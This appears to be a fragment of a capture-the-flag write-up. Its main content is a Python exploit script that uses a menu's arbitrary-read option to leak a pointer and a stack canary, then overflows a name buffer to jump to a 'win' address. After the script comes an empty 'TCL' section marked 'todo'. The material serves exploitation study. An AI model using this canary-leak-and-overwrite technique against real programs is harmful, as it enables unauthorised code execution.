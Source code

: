 ```python
def exploit():
    # solve_pow(p)
    win = 0x00400964
    canary = 0x420060
    input()
    sla(b"> ", b"1")
    sla(b"Enter the address to read from: ", str(hex(canary)))
    leak1 = int(p.recvline()[:-1], 16)
    info("leak1: {hex(leak1)}")
    sla(b"> ", b"1")
    sla(b"from: ", str(hex(leak1)))
    canary = int(p.recvline()[:-1], 16)
    info(f"canary: {hex(canary)}")
    sla(b"> ", b"2")
    sla(b"your name:", b"a" * 16 + p32(canary) + p32(0) + p32(win))

    p.interactive()
```

## TCL

todo